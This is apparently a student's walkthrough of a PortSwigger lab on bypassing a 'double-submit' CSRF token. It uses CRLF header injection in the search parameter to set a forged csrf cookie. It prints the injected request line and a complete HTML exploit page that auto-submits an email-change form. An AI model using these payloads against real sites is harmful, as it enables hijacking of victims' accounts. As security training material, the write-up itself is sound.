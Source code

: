 
### CSRF where token is duplicated in cookie : PRACTITIONER

---


> Given credentials `wiener:peter`.

> Logging in with the given credentials.

![](./screenshots/lab1-1.png)

> We see this page.

![](./screenshots/lab1-2.png)

> We know that the update email is vulnerable to CSRF.
> Capturing a `POST` request via BURPSUITE PROXY HTTP history while updating the email address.

![](./screenshots/lab6-1.png)

> We see that the csrf cookie is duplicated in the token.
> Trying to manipulate the values of the token and cookie.

1. Modify the token and leave the cookie.

![](./screenshots/lab6-2.png)

2. Modify the cookie and leave the token.

![](./screenshots/lab6-3.png)

3. Modifying both to the same value.

![](./screenshots/lab6-4.png)

> Therefore, the validation technique simply checks if they are both equal.

> To exploit this, we need to send a cookie that has the same value as the token present in the HTML payload.
> To do that, similar to [[Portswigger/CSRF/Lab 6|Lab 6]], we exploit the search functionality and add in the `GET` request header injection to set a cookie.

> Capturing the `GET` request after searching using HTTP history.

![](./screenshots/lab5-8.png)

> There is a `Set-Cookie` header being used to create a new cookie.
> We can change the path and the query parameters.

```
/?search=mins%0d%0aSet-Cookie:%20csrf=FAKE%3b%20SameSite=None
```

> Sending this request we see that we added another cookie.

![](./screenshots/lab6-5.png)

> Now, we need to add this to the HTML payload. 
> Add it by removing the script tags and adding an img tag.

```HTML
<html> 
	<body> 
		<form action="https://0a74009f03ba08e0811b02f200930080.web-security-academy.net/my-account/change-email" method="POST"> 
			<input type="hidden" name="email" value="newmins@mins.com" /> 
			<input type="hidden" name="csrf" value="FAKE" />
		</form> 
		<img src="https://0a74009f03ba08e0811b02f200930080.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=FAKE%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
	</body> 
</html>
```

> Adding this payload to the exploit server and then storing and delivering to victim completes the lab.

---


